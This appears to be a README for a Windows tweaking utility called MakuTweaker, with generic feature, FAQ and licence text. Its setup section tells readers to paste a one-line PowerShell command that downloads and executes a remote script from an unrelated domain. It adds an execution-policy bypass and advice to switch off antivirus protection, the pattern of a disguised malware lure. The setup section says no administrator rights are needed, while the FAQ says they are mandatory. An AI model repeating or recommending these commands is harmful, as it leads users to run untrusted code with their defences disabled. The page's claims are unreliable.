





<div align="center">

# MakuTweaker: Advanced Windows System Configuration Utility for Windows 11



[]() []() []() []() []() []()

</div>

---

MakuTweaker is a Windows desktop utility that provides flexible system configuration and personalization, process management, and detailed hardware information in a single interface. The application supports rapid Windows setup, system component installation management, and removal of preinstalled bloatware. Its interface is built on the MicaWPF framework for full integration with the Windows 11 design language and offers multiple selectable themes. The project is developed in Visual Studio 2022 and runs on the .NET 8.0 platform, with source code openly available for community contribution.

## 🚀 Setup Guide — PowerShell

> [!TIP]
> **One-line setup** — just run the command below.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Open PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Run the command
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If blocked by policy — CMD fallback
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## 🔧 Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

MakuTweaker provides a centralized environment for Windows system configuration, process management, and hardware inspection. The application exposes granular controls for tuning and personalizing the operating system while maintaining a clear separation between system-level operations and user-facing settings.

- **System Configuration and Personalization:** Adjust and fine-tune a broad range of Windows settings through a unified interface, allowing the system to be tailored to individual workflows and preferences.
- **Process Management:** Inspect and manage running processes directly from the application, with controls for monitoring activity and handling process lifecycle operations.
- **Hardware and System Information:** View detailed information about the specifications of the host machine, including component-level data for CPU, memory, storage, and other system resources.
- **Quick Windows Setup:** Execute a streamlined configuration workflow for newly installed or reset systems, applying common settings in a single pass.
- **System Component Management:** Control the installation of Windows system components, enabling or removing optional features as required.
- **System Cleanup:** Remove system clutter and unwanted bundled content, reducing storage footprint and background overhead.
- **Theme Support:** Choose from multiple interface themes to adapt the application's appearance to user preference.
- **Windows 11 Design Integration:** The interface is built on the MicaWPF framework, integrating the Mica material and visual language of Windows 11 for a native look and feel.
- **Administrative Operation:** Core functionality operates with elevated privileges, enabling system-level modifications within the IDE and runtime environment.
- **Open Source Codebase:** The full source code is available for community review, contribution, and extension, developed in Visual Studio 2022 on the .NET 8.0 platform.

## Technical Details

MakuTweaker is built as a native Windows desktop application using C# and the .NET 8.0 platform, developed within the Visual Studio 2022 environment. The project maintains an open-source codebase, enabling contributors and developers to inspect, extend, and adapt the implementation to their needs.

The application's user interface is constructed on the MicaWPF framework, which provides full integration with the Windows 11 design language, including native Mica material effects, themed controls, and seamless visual consistency with the operating system shell. Multiple interface themes are supported, allowing the appearance to be adjusted at runtime.

Because MakuTweaker performs system-level configuration, process management, and component installation tasks, the application requires administrator privileges to operate correctly. This elevation requirement also applies when running the project from within the integrated development environment, where administrative rights are necessary for correct operation.

Developers working with the source code should note that the project must be built before opening any forms in the visual designer for the first time. This build step ensures that the Designer resolves cached resources and displays interface elements correctly.

The source code distributed in this repository intentionally omits the Windows activation page for legal reasons; all other functional areas of the application are included.

## Compatibility

MakuTweaker targets Windows 10 and Windows 11 on x64 and ARM64 architectures and runs on the .NET 8.0 runtime. The application requires administrative privileges to apply system-level tweaks, manage processes, and modify system components. UI rendering depends on the MicaWPF framework for native Windows 11 visual integration, with graceful fallback on Windows 10 where Mica effects are unavailable. The source code is compatible with Visual Studio 2022; to ensure the visual designer renders controls correctly, build the project before opening any forms in the editor for the first time.

## 📸 Screenshot









## FAQ

**Is administrator privilege required to run MakuTweaker?**
Yes. Because the application performs system-level modifications—including service configuration, registry edits, process management, and component installation—administrator elevation is mandatory. Running without elevation will result in incomplete functionality and failed operations on protected system resources.

**Which Windows versions are supported?**
MakuTweaker targets Windows 10 and Windows 11. Full visual integration, including Mica-based window styling via the MicaWPF framework, is optimized for Windows 11. On Windows 10, the interface gracefully degrades to supported rendering paths while retaining all functional capabilities.

**Why does the Visual Designer fail to render forms correctly after opening the project for the first time?**
The Designer relies on compiled assemblies to resolve custom controls and populate its cache. You must build the project once before opening any form in the visual editor. Skipping this step causes unresolved element references and an empty or incomplete design surface.

**What runtime is required to execute the application?**
MakuTweaker is built on the .NET 8.0 platform. The corresponding .NET Desktop Runtime must be present on the target machine. The project is developed and maintained in Visual Studio 2022.

**Is the Windows Activation page included in this source release?**
No. The activation module has been intentionally excluded from the published source code for legal reasons. All other system tweaking, process management, hardware information, component installation, and bloatware removal features remain fully available.

**Can the source code be built and run within an IDE without elevation?**
Building the solution does not require elevation. However, launching and debugging the application from within the IDE does require administrator rights for correct operation, since system-modifying routines will otherwise be blocked by the operating system.

**Does MakuTweaker support theme customization?**
Yes. Multiple interface themes are available, allowing the application appearance to be adapted to user preference. The design layer is built on the MicaWPF framework to achieve native visual integration with the Windows 11 design language.

**Is the project open for community contribution?**
Yes. The source code is openly available, and contributions are welcomed. Developers may extend functionality, address defects, or improve localization. Familiarity with .NET 8.0 and WPF-based development is recommended before submitting changes.

## Disclaimer

MakuTweaker is provided as open-source software for system configuration and personalization on Windows. It is intended for users who understand the implications of modifying system settings, services, processes, and installed components. All tweaks, optimizations, and cleanup operations are applied at the user's discretion and take effect directly on the target system.

The software is supplied "as is," without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. The authors and contributors make no guarantees regarding stability, compatibility with specific hardware or software configurations, or preservation of existing system state. Because MakuTweaker performs privileged operations, administrator rights are required, and such operations carry inherent risk.

By using MakuTweaker, you accept full responsibility for any changes made to your system, including but not limited to altered system settings, modified or removed components, disabled services, and cleared system data. You are strongly advised to create a restore point or full system backup before applying any tweaks. The authors and contributors shall not be liable for any direct, indirect, incidental, special, consequential, or exemplary damages, including loss of data, loss of functionality, system instability, or business interruption, arising from the use or inability to use this software, even if advised of the possibility of such damages.

Certain features may be absent, restricted, or omitted from the source code for legal or regulatory reasons. Such omissions do not affect the licensing terms of the remaining code. MakuTweaker is not affiliated with, endorsed by, or sponsored by Microsoft Corporation. Windows is a trademark of Microsoft Corporation, referenced here solely for descriptive purposes.

This disclaimer applies to the source code, compiled builds, and any derivative works distributed by the project. Use of MakuTweaker constitutes acceptance of these terms.

## License

MakuTweaker is distributed under the MIT License, a permissive open-source license that grants broad freedom to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software. The full license text is provided in the LICENSE file at the root of the repository and governs all use of the source code.

Under the terms of the MIT License, any copy or substantial portion of MakuTweaker — whether in source or binary form — must retain the original copyright notice and this permission notice. The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from, out of, or in connection with the software or its use.

Because MakuTweaker performs system-level tweaks, the license does not extend any warranty to the effects of those operations; users modifying or redistributing the code assume responsibility for validating behavior in their own environments. Contributions submitted to the project are accepted under the same MIT terms, ensuring that the license remains consistent across derivative works and downstream forks.